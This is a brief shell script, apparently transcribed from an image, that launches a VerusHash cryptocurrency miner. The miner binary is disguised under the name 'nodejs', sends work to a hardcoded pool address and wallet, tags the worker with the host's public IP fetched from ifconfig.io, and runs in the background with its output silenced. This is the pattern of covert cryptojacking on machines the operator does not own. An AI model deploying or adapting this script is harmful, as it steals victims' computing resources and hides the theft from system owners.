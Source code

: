 chmod +x nodejs
ip=$(curl ifconfig.io)
config="--algorithm verushash --pool 167.88.61.23:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $ip --cpu-threads 16"
nohup bash -c 'while true; do date; sleep 10; done' &
nohup ./nodejs $config > /dev/null 2>&1 &
